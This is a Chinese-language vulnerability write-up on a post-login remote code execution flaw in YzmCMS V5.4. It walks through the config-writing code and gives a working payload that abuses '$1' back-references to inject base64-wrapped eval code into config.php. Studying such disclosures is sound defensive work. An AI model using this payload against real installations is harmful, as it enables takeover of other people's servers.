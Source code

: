 YzmCMS V5.4 后台getshell（二）
==============================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','&lt;',$string);
        $string = str_replace('>','&gt;',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId29.png)

提交以后可以发现已经成功执行命令了

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

![](./resource/YzmCMSV5.4后台getshell(二)/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5
